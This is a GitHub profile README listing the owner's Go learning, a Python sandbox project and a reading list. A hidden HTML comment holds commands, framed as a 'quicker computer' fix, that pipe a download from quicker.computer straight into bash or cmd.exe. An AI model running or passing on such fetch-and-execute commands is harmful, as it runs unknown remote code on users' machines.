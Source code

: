 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos. \
If you are interested in working with me on the [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) you can send me an email and I will add you to the private repo.


### Current Reading list
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) \
[Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) \
[Hacking APIs](https://nostarch.com/hacking-apis) \


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
